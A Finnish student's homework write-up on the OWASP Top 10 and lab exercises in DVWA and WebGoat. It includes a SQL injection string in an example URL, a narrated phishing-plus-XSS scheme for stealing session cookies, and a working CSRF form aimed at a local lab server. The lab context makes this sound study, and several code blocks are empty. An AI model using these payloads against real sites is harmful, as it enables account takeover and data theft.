




# h3
## x) OWASP 2017

- OWASP (The Open Web Application Security Project) on avoin yhteisö, jonka tarkoituksena on auttaa yrityksiä ja yhteisöjä turvallisten verkkosovellusten ja rajapintojen kehittämisessä, hankkimisessa ja ylläpidossa.
- ### A1: Injection

    - #### Injektiohaavoittuvuudet kuten SQL. NoSQL, OS, LDAP
    - Tarkoituksena on saada kohdekoneen suorittamaan komentoja, joiden avulla hyökkääjä pääsee käsiksi dataan ilman tarvittavia käyttöoikeuksia
    - Hyökkääjä injektoi hyökkäyksensä kohdekoneen tulkkiin
    - Haavoittuvuuksia erityisesti legacy-ympäristöissä
    - Kohteina yleisesti SQL, LDAP, XPath, NoSQL kyselyissä, käyttöjärjestelmän komennoissa, XML-parsereissa, SMTP headereissa, ilmaisukielissä (esim palvelun oma syntaksi kuten Jiran JQL) ja ORM-kyselyissä
    - Esim haavoittuvassa APIssa on käytössä sanitoimaton SQL-kysely: 
        
        `String query = "SELECT * FROM accounts WHERE
        custID='" + request.getParameter("id") + "'";`
    Hyökkääjä voi muokata selaimen lähettämää pyyntöä APIin ja huijata APIa palauttamaan listan kaikkien käyttäjien tiedot. Tässä tapauksessa se tapahtuisi korvaamalla APIlle lähetetty parametri merkkijonolla `' or '1'='1`. Tällöin API-kutsu voisi olla esim `http://example.com/app/accountView?id=' or '1'='1`

- ### A2: Broken Authentication
    - #### Haavoittuvuudet käyttäjien oikeuksien varmistamisessa
    - Monia eri hyökkäysvektoreita
    - Esimerkiksi "credential stuffing" eli yleisimpien käytössä olevien salasanojen ja käyttäjänimien listojen käyttö hyökkäyksessä: haavoittuvan palvelun käyttäjien kirjautumispalveluun yritetään kirjautua kokeilemalla kaikki listan salasana/käyttäjänimi -yhdistelmät. Muutaman tuhannen peräkkäisen yrityksen jälkeen sopiva yhdistelmä löytyy ja hyökkääjä pääsee kirjautumaan palveluun

- ### A3: Sensitive Data Exposure
    - #### Haavoittuvuudet tietoturvallisen tiedon käsittelyssä
    - Hyökkääjä voi päästä kaappaamaan avaimia, tai muuta tietoturvallista tietoa 
    - EU:ssa käytössä oleva GDPR -lainsäädäntö velvoittaa yritykset käsittelemään tietoa turvallisesti
    - Esim: Sivusto ei pakota käyttäjää käyttämään TLS-salausta tai se käyttää huonompilaatuista salausta. Käyttäjä voi tarkastella verkkoliikennettä salaamattomana, tai hyökkääjä voi pakottaa verkkoliikenteen salaamaattomaksi (HTTPS -> HTTP). Hyökkääjä voi pomia pyyntöjen sisällön lennosta itselleen ja näin saada haltuunsa esimerkiksi luottokorttinumeroita tai käyttäjätietoja

- ### A7: Cross-site scripting
    - #### Cross-site scripting (XSS) -hyökkäyksiä on yleisesti kolmenlaisia:
        - Reflected XSS: hyökkäyksen kohde sisältää varmistamattoman ja 'unescaped' kohteen käyttäjän syötölle. Onnistunut hyökkäys mahdollistaa ulkopuolisen HTML- tai Javascript -koodin ajamisen selaimessa
        -Stored XSS: hyökkäksen kohde tallentaa käyttäjän syötteen varmistamattomana. Toinen käyttäjä tai ylläpitäjä tarkastelee syötettä myöhemmin, jolloin hyökkääjän injektoima koodi mahdollisesti suoritetaan
        - DOM XSS: hyökkäyksen kohteena erityisesti JS-frameworkit, SPA-sovellukset ja APIt, jotka mahdollistavat hyökkääjän hallinnoiman tiedon sisällyttämisen verkkosivulla
        
    - Esim (DOM XSS): Haavoittuva verkkosovellus tulostaa verkkosivulle html-koodinpätkän ilman validaatiota:

        `(String) page += "<input name='creditcard' type='TEXT'
        value='" + request.getParameter("CC") + "'>";`
    
        Hyökkääjä muokkaa http-kutsun 'CC'-parametriä:

        `'>'.`

        Tämän avulla hyökkääjä saa verkkosovelluksen lähettämään uhrin sessio-ID:n hyökkääjän ylläpitämälle sivustolle, joka mahdollistaa uhrin käyttäjäsession kaappamisen.

## y) Cross-site story

Hyökkääjä löytää verkosta sivuston, jonka eräällä sivulla on hakukenttä. Hyökkääjä testaa hakukentän haavoittuvuutta yksinkertaisella keinolla: hän syöttää hakukenttään arvoksi yksinkertaisen javascript-ohjelman:

        

Tämän jälkeen hyökkääjä submitoi hakuterminsä, jolloin sivusto suorittaa hyökkääjän koodin ja selain luo popup-ikkunan jossa on hyökkääjän viesti. Hyökkäys näyttää siis toimivan.

Hyökkääjä pääsee siis hakukentän avulla suorittamaan omaa koodiaan. 

Hyökkääjällä on käytössään lista haavoittuvan sivuston käyttäjien sähköposteista sekä palvelin, jota hän voi käyttää hyökkäyksessään.
Hyökkääjä päättää varastaa sivuston käyttäjien sessiokeksit. Sitä varten hän valmistelee autenttisen näköisen sähköpostin, ja spooffaa lähettäjän nimen muistuttamaan haavoittuvan sivuston osoitetta.

Hyökkääjä sisällyttää sähköpostiinsa linkin, joka muistuttaa paljon haavoittuvalle sivustolle ohjaavaa linkkiä. Linkki on ohjaa suoraan haavoittuvan sivuston hakukenttään, jonka hakutermiksi on asetettu javascript-ohjelma, joka lähettää käyttäjän sessiokeksin hyökkääjän palvelimelle. Ohjelma voi olla esimerkiksi tämän kaltainen:

    

Hyökkääjän palvelin poimii sessiokeksin talteen. Hyökkääjä ottaa yhden vastaanottamistaan keksien session ja käyttää sitä väärentääkseen käyttäjäsession haavoittuvalla sivustolla. Tällöin hyökkääjä pääsee käyttämään sivustoa varastamansa käyttäjän roolissa. 

## a) SQLZoo

### 0) Select basics

1. Tämä on yksinkertainen tehtävä, jossa muutetaan SQL-skriptissä kyselyn `name`-arvoa. Ratkaisu on yksinkertainen:

2. Tämä tehtävä on samankaltainen kuin 0:

3. Tehtävä 3 on myös helposti ratkaistavissa: 

## b) Darn Vulnerabe Web Application

DVWA löytyy Metasploitable2:sta avaamalla selaimen metasploitable:n ip-osoitteeseen. Indeksisivulla on suora linkki Metasploitable2:n DVWA -palveluun. Loggaan palveluun sisään (tunnus: admin, salasana: password).

## c) Execute! DLWA - Command Execution

Ensin asetan DLWA:n security-asetuksen asetukselle "low":

Tämän jälkeen aloitan Command Execution -harjoituksen. Sivustolla on teksti "Ping for free" ja alla tekstikenttä, johon voi syöttää tekstiä. 

Onkohan tekstikenttä yhteydessä mihin? Mitä tehtävässä on tarkoitus saavuttaa?
Kokeilen ensin ajaa tunnettua javascript-alert -testiä. Syötän hakukenttään tekstin 

    `

Painan "Update cart" ja vastauksena tulee 404: bad request. Ainakaan nämä kentät eivät ole kelpoja hyökkäykselle. Ehkä backend käsittelee näitä lukuja numeroina?

Siirrytään seuraavaan kentään. Kirjoitan saman koodinpätkän "Enter your credit card number" -kenttään. Hyökkäys onnistuu, ja alert-popup hyppää ruudulle. 

Tehtävä on ratkaistu (tai ainakin tulkitsen viestin niin):

## A8:2013 Request Forgeries

### 3)

Tehtävässä pitää triggeröidä sivun formi sivun ulkopuolelta. Pitänee luoda siis sivu joka triggeröi sivun formin? Kokeillaanpa sitä. Kaivan harjoitussivun lähdekoodista formin koodin:

        <form accept-charset="UNKNOWN" id="basic-csrf-get" method="POST" name="form1" target="_blank" successcallback="" action="/WebGoat/csrf/basic-get-flag" enctype="application/json;charset=UTF-8">
        <input name="csrf" type="hidden" value="false">
        <input type="submit" name="submit">
        </form>

Formin 'action' -parametri pitää muuttaa osoittamaan WebGoat-palvelimeeni. Oman sivuni lähdekoodi näyttää tällä hetkellä tältä:
    
    <html>
    <body>
    <form id="basic-csrf-get" method="POST" name="form1" target="_blank" action="http://192.168.0.155:8080/WebGoat/csrf/basic-get-flag">
    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit">
    </form>
    </body>
    </html>

Ei toimi. Jotain puuttuu. Olisiko requestissa jotain muutakin, mitä en huomannut? Katsotaanpa 'Submit' -napin takaa aukeavaa WebGoat/csrf/basic-get-flag -vastaussivua. Olisiko requestissa jotain parametrejä joita en huomannut aikaisemmin? Avaan developer toolsin network-väliehden ja olin oikeassa:

Formille pitää siis luoda uusi input nimeltään 'submit' ja antaa sille arvoksi 'Submit'. Lisään tämän sivuni lähdekoodiin, ja koodi näyttää tällä kertaa tältä:

    <html>
    <body>
    <form accept-charset="UNKNOWN" id="basic-csrf-get" method="POST" target="_blank"  action="http://192.168.0.155:8080/WebGoat/csrf/basic-get-flag" >
    <input name="csrf" type="hidden" value="false">
    <input name="submit" type="hidden" value="Submit">
    <input type="submit" name="submit">
    </form>
    </body>
    </html>

Temppu onnistuu ja saan seuraavanlaisen vastauksen:
   
    {
     "flag" : 31888,
     "success" : true,
     "message" : "Congratulations! Appears you made the request from a separate host."
    }

Syötettyäni saadun flag-numeron tehtävä on ratkaistu:

(sivu löytyy tämän hakemiston juuresta nimellä csrf.htm)

